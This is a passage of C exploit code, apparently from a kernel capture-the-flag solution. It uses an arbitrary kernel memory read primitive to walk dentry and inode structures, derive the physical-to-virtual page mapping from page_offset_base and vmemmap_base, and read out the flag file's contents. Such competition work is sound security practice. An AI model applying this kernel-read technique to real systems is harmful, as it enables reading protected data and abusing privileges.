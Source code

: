 ```

      unsigned long prev = 0;
      ret = read_kernel_memory(fd, id, subdir + 0x90, &prev, 8);
      CHECKED(ret, "read prev");
      printf("prev @ 0x%lx\n", prev);
      /* not found */

      if (!prev) {
        /* no other prevs */
        break;
      }

      subdir = prev - 0x90;
      printf("prev subdir @ 0x%lx\n", subdir);
    }

    unsigned long flag_inode = 0;
    ret = read_kernel_memory(fd, id, flag_dentry + 0x30, &flag_inode, 8);
    CHECKED(ret, "read flag inode");
    printf("flag inode @ 0x%lx\n", flag_inode);
    
    unsigned long flag_imapping = 0;
    ret = read_kernel_memory(fd, id, flag_inode + 48, &flag_imapping, 8);
    CHECKED(ret, "read flag i_mapping");
    printf("flag i_mapping @ 0x%lx\n", flag_imapping);

    unsigned long node_addr = 0;
    ret = read_kernel_memory(fd, id, flag_imapping + 16, &node_addr, 8);
    CHECKED(ret, "read node address");
    printf("flag page address @ 0x%lx\n", node_addr);

    /* copy_page_to_iter @ 0xffffffff81203ba0(in ida, with base 0xffffffff81000000) */
    /* There is logic to get virtual address. copy it! */
    unsigned long page_offset_base_addr = (0xFFFFFFFF81C256B8 - 0xffffffff81000000) + kernel_addr;
    unsigned long vmemmap_base_addr = page_offset_base_addr - 0x10;

    unsigned long page_offset_base = 0;
    unsigned long vmemmap_base = 0;

    ret = read_kernel_memory(fd, id, page_offset_base_addr, &page_offset_base, 8);
    CHECKED(ret, "read page offset base");
    printf("page offset base 0x%lx\n", page_offset_base);

    ret = read_kernel_memory(fd, id, vmemmap_base_addr, &vmemmap_base, 8);
    CHECKED(ret, "read vmemmap base");
    printf("vmemmap base 0x%lx\n", vmemmap_base);

    /* calculate virtual address */
    unsigned long flag_addr = node_addr;
    flag_addr -= vmemmap_base;
    flag_addr >>= 6;
    flag_addr <<= 0xc;
    flag_addr += page_offset_base;
    printf("flag @ 0x%lx\n", flag_addr);

    char *flag_buf = (char*) malloc(0x100);
    ret = read_kernel_memory(fd, id, flag_addr, flag_buf, 0x100);
    CHECKED(ret, "read flag");
    printf("flag: %s\n", flag_buf);
    free(flag_buf);

    return 0;
}
```